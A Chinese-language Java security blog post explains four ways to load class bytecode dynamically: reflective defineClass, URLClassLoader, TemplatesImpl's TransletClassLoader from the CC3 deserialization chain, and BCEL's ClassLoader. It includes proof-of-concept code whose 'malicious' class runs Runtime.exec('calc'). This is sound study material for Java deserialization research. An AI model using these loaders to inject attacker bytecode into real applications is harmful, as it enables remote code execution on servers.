








本文整体梳理一下动态加载类字节码的几种常见姿势，其实在其他javasec的文章中都有介绍过

# 何为动态加载字节码

首先我们需要对类加载机制有一个全面的了解：https://wanth3f1ag.top/2025/06/18/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC3%E9%93%BE/#0x01%E7%B1%BB%E5%8A%A0%E8%BD%BD%E6%9C%BA%E5%88%B6

总结来说：在将java代码进行编译后会生成字节码并写入.class文件，我们则可以通过类加载机制将类**加载到虚拟机中之后进行运行和使用**

不仅仅是java代码，开发者可以用类似Scala、Kotlin这样的语言编写代码，只要你的编译器能够将代码编译成.class文 件，都可以在JVM虚拟机中运行



加载主要是靠我们的类加载器去完成的，类加载器有很多种，但总的流程可以大致分为以下三个步骤

```java
ClassLoader#loadClass() —-> ClassLoader#findClass() —-> ClassLoader#defineClass()
```

- `loadClass`的作用是从已加载的类缓存、父加载器等位置寻找类

```java
    protected Class<?> loadClass(String name, boolean resolve)
        throws ClassNotFoundException
    {
        synchronized (getClassLoadingLock(name)) {
            // First, check if the class has already been loaded
            Class<?> c = findLoadedClass(name);
            if (c == null) {
                long t0 = System.nanoTime();
                try {
                    if (parent != null) {
                        c = parent.loadClass(name, false);
                    } else {
                        c = findBootstrapClassOrNull(name);
                    }
                } catch (ClassNotFoundException e) {
                    // ClassNotFoundException thrown if class not found
                    // from the non-null parent class loader
                }

                if (c == null) {
                    // If still not found, then invoke findClass in order
                    // to find the class.
                    long t1 = System.nanoTime();
                    c = findClass(name);

                    // this is the defining class loader; record the stats
                    sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
                    sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
                    sun.misc.PerfCounter.getFindClasses().increment();
                }
            }
            if (resolve) {
                resolveClass(c);
            }
            return c;
        }
    }
```

首先会查询 JVM 内部维护的已加载类缓存检查当前类是否之前有被同一加载器加载过，如果找到，直接返回，避免重复加载，如果没被加载过就会进入双亲委派查询机制，还是没找到的话就会尝试用当前加载器去加载类，此时会调用到findClass

- `findClass`的作用是根据基础URL指定的方式来加载类的字节码，可能会在本地文件系统、jar包或远程http服务器上读取字节码，然后交给`defineClass`



- `defineClass`的作用是处理前面传入的字节码，将其处理成真正的Java类

接下来我们介绍几种常见的类加载方法

# ClassLoader#defineClass直接加载字节码

写个demo跟一下代码吧

先写个Test测试代码

```java
package TestCode;

import java.io.IOException;

public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

编译+base64编码

然后写类加载的代码

```java
package TestCode;
import java.lang.reflect.Method;
import java.util.Base64;

public class ClassLoader_test {
    public static void main(String[] args) throws Exception {
        try {
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            byte[] code = Base64.getDecoder().decode("yv66vgAAADQAKAoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA9MVGVzdENvZGUvVGVzdDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEADVRlc3RDb2RlL1Rlc3QBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAUADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAMADQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAVCQABABYAAAACABc=");
            Class<?> hello = (Class<?>) defineClass.invoke(ClassLoader.getSystemClassLoader(),
                    "TestCode.Test", code, 0, code.length);
            hello.newInstance();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


值得注意的是，在 defineClass 被调用的时候，类对象是不会被初始化的，只有这个对象显式地调用其构造函数，初始化代码才能被执行。



另外，由于`ClassLoader#defineClass`是一个保护属性，需要反射调用

# URLClassLoader加载远程class文件

先写个测试代码

依旧是刚刚的Test代码，在本地开个8888端口

```java
package TestCode;
import java.net.URL;
import java.net.URLClassLoader;

public class ClassLoader_test {
    public static void main(String[] args) throws Exception {
        try {
            URL[] urls = {new URL("http://localhost:8888/")};
            URLClassLoader loader = URLClassLoader.newInstance(urls);
            Class c = loader.loadClass("TestCode.Test");
            c.newInstance();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



正常情况下，Java会根据配置项`sun.boot.class.path`和`java.class.path`中列举到的基础路径(这些路径经过处理后为`java.net.URL`类)来查找和加载.class文件来加载，而这个基础路径有分为三种情况：

- URL未以斜杠 `/` 结尾，则认为是一个JAR文件，使用 `JarLoader` 来寻找类，即为在Jar包中寻找 `.class` 文件。
- URL以斜杠 `/` 结尾，且协议名是 `file`，则使用 `FileLoader` 来寻找类，即为在本地文件系统中寻找 `.class` 文件。
- URL以斜杠 `/` 结尾，且协议名不是 `file`，则使用最基础的 `Loader` 来寻找类。

具体的代码细节我一直没跟出来emmm

# TemplatesImpl TransletClassLoader加载字节码

这个在CC3就很经典了，因为com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl类内部定义了一个类加载器TransletClassLoader

```java
    static final class TransletClassLoader extends ClassLoader {
        private final Map<String,Class> _loadedExternalExtensionFunctions;

         TransletClassLoader(ClassLoader parent) {
             super(parent);
            _loadedExternalExtensionFunctions = null;
        }

        TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
            super(parent);
            _loadedExternalExtensionFunctions = mapEF;
        }

        public Class<?> loadClass(String name) throws ClassNotFoundException {
            Class<?> ret = null;
            // The _loadedExternalExtensionFunctions will be empty when the
            // SecurityManager is not set and the FSP is turned off
            if (_loadedExternalExtensionFunctions != null) {
                ret = _loadedExternalExtensionFunctions.get(name);
            }
            if (ret == null) {
                ret = super.loadClass(name);
            }
            return ret;
         }

        /**
         * Access to final protected superclass member from outer class.
         */
        Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
    }
```

这里重写了`defineClass`方法，作用域为default，可以被外部直接调用。回溯一下CC3的调用链，跟进一下这个方法的用法

```java
    private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }

        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });

        try {
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];

            if (classCount > 1) {
                _auxClasses = new HashMap<>();
            }

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
                final Class superClass = _class[i].getSuperclass();

                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }

            if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
        catch (ClassFormatError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (LinkageError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```



```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            translet.postInitialization();
            translet.setTemplates(this);
            translet.setServicesMechnism(_useServicesMechanism);
            translet.setAllowedProtocols(_accessExternalStylesheet);
            if (_auxClasses != null) {
                translet.setAuxiliaryClasses(_auxClasses);
            }

            return translet;
        }
        catch (InstantiationException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (IllegalAccessException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

 ```java
     public synchronized Transformer newTransformer()
         throws TransformerConfigurationException
     {
         TransformerImpl transformer;
 
         transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
             _indentNumber, _tfactory);
 
         if (_uriResolver != null) {
             transformer.setURIResolver(_uriResolver);
         }
 
         if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
             transformer.setSecureProcessing(true);
         }
         return transformer;
     }
 ```

```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

简单回溯了一下，当然上面的触发newTransformer的方法有很多，这里只放一种

另外，值得注意的是，`TemplatesImpl` 中加载的字节码是有一定要求的：这个字节码必须是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类。

改一下Test

```java
package TestCode;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后写个poc（CC3分析过了，这里就直接写了）

```java
package TestCode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class ClassLoader_test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\TestCode\\Test.class"));
        byte[][] codes = {code};

        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        templates.newTransformer();
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



成功加载字节码

# BCEL ClassLoader加载字节码

这个其实也在Fastjson反序列化里面也接触和分析过：https://wanth3f1ag.top/2025/11/18/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BFastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#BCEL%E5%88%A9%E7%94%A8%E9%93%BE

BCEL这个包中有个类com.sun.org.apache.bcel.internal.util.ClassLoader ，他重写了Java内置的`ClassLoader#loadClass()`方法。

```java
  protected Class loadClass(String class_name, boolean resolve)
    throws ClassNotFoundException
  {
    Class cl = null;

    /* First try: lookup hash table.
     */
    if((cl=(Class)classes.get(class_name)) == null) {
      /* Second try: Load system class using system class loader. You better
       * don't mess around with them.
       */
      for(int i=0; i < ignored_packages.length; i++) {
        if(class_name.startsWith(ignored_packages[i])) {
          cl = deferTo.loadClass(class_name);
          break;
        }
      }

      if(cl == null) {
        JavaClass clazz = null;

        /* Third try: Special request?
         */
        if(class_name.indexOf("$$BCEL$$") >= 0)
          clazz = createClass(class_name);
        else { // Fourth try: Load classes via repository
          if ((clazz = repository.loadClass(class_name)) != null) {
            clazz = modifyClass(clazz);
          }
          else
            throw new ClassNotFoundException(class_name);
        }

        if(clazz != null) {
          byte[] bytes  = clazz.getBytes();
          cl = defineClass(class_name, bytes, 0, bytes.length);
        } else // Fourth try: Use default class loader
          cl = Class.forName(class_name);
      }

      if(resolve)
        resolveClass(cl);
    }

    classes.put(class_name, cl);

    return cl;
  }
```

 如果传入的类名包含`$$BCEL$$`，就调用createClass函数创建该类


跟进createClass



subString()截取`$$BCEL$$`后面的内容作为真实的类名并调用Utility.decode进行相应的解码并最终返回改字节码的bytes数组。随后创建Parser解析器并调用parse()方法进行解析，生成JavaClass对象并返回clazz，并会调用java原生的defineClass去进行类加载

这里用了一个自带工具的decode，那么我们的poc就应该做一定的encode操作，具体怎么做就不重新说了

还是一样，我们的恶意类Test

```java
package TestCode;

import java.io.IOException;

public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

然后进行类加载

```java
package TestCode;

import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.nio.file.Files;
import java.nio.file.Paths;

public class ClassLoader_test {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\TestCode\\Test.class"));
        String code = Utility.encode(bytes,true);
        String codes = "$$BCEL$$" + code;
        new ClassLoader().loadClass(codes).newInstance();
    }
}
```



我测，忘记newInstance实例化了，一直在loadClass但是没弹计算器卡了半天，真服了我自己

不过BCEL在Java 8u251的更新中，这个ClassLoader被移除了。这时候就得依靠外带的依赖去打了
